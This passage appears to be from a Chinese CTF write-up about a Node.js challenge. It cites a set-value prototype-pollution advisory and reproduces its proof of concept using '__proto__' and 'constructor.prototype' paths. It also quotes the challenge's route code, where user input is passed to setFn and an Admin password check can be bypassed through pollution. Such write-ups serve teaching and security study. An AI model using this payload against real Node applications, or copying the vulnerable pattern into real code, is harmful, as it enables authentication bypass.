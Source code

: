 ![24](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/c1c36f61134fcb19b87b8df74c5bf82d.png)

在issues里可以找到漏洞[https://github.com/jonschlinkert/set-value/issues/17](https://github.com/jonschlinkert/set-value/issues/17)

![24](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/1f3f3d9bf92f77192987dd6dd3f68c5b.png)

[https://snyk.io/vuln/SNYK-JS-SETVALUE-450213](https://snyk.io/vuln/SNYK-JS-SETVALUE-450213)给了POC

```javascript
const setFn = require('set-value');
const paths = [ 'constructor.prototype.a0', '__proto__.a1', ];

function check() {
    for (const p of paths) {
        setFn({}, p, true);
    }
    for (let i = 0; i < paths.length; i++) {
        if (({})[`a${i}`] === true) {
            console.log(`Yes with ${paths[i]}`);
        }
    }
}
check();
```

然后`routes/index.js`里和flag有关的是

```javascript
const Admin = {
    "password1":process.env.p1,
    "password2":process.env.p2,
    "password3":process.env.p3
}
//略
router.post("/DeveloperControlPanel", function (req, res, next) {
    // not implement
    if (req.body.key === undefined || req.body.password === undefined){
        res.send("What's your problem?");
    }else {
        let key = req.body.key.toString();
        let password = req.body.password.toString();
        if(Admin[key] === password){
            //res.send(process.env.flag);
            res.send('flag');
        }else {
            res.send("Wrong password!Are you Admin?");
        }
    }
});
//略
router.post("/Privilege", function (req, res, next) {
    // Why not ask witch for help?
    if(req.session.knight === undefined){
        res.redirect('/SpawnPoint');
    }else{
        if (req.body.NewAttributeKey === undefined || req.body.NewAttributeValue === undefined) {
            res.send("What's your problem?");
        }else {
            let key = req.body.NewAttributeKey.toString();
            let value = req.body.NewAttributeValue.toString();
            setFn(req.session.knight, key, value);
            res.send("Let's have a check!");
        }
    }
});
```